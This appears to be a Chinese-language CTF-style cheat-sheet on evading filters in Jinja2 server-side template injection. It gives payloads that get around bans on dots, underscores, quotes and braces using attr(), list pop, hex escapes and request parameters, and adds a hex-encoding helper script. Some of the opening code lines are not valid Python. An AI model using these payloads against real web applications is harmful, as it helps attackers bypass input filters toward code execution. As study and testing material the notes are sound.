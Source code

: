 ```python
''.__class__ = ''['__class__']
''.__class__ = ''|attr('__class__')
```

利用这两种方法

```python
1、用[]代替.
{{"".__class__}}={{""['__class']}}
2、用attr()过滤器绕过，举个例子
{{"".__class__}}={{""|attr('__class__')}}
```

`_` 被ban

```python
1、通过list获取字符列表，然后用pop来获取_，举个例子
{% set a=(()|select|string|list).pop(24)%}{%print(a)%}
2、可以通过十六进制编码的方式进行绕过，举个例子
{{()["\x5f\x5fclass\x5f\x5f"]}} ={{().__class__}}
```



**赋值方法：**

这个主要用于单双引号被ban的情况

+ `request.args.x`,传递get参数
+ `request.cookies.x`，=传递cookie参数
+ `request.values.x`，传递post参数



**花括号{}被ban**：

在jinjia引擎中可以使用`{%    %}`

```python
{%print("".__.....)%}
```



**编码**

```python
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
```

贴一个脚本：

```python
def string_to_hex(s):
    # 将字符串编码为十六进制形式，每个字符被转为两个十六进制数
    return s.encode('ascii').hex()

def hex_to_string(s):
    # 将十六进制字符串解码回普通字符串
    return bytes.fromhex(s).decode('ascii')

# 示例
normal_string = "__class__"
hex_string = string_to_hex(normal_string)
print(f"Original: {normal_string}")
print(f"Hex: {hex_string}")

# 转换回来以验证
decoded_string = hex_to_string(hex_string)
print(f"Decoded: {decoded_string}")

# 输出处理成类似 \x 格式
def string_to_hex_with_slashes(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)
```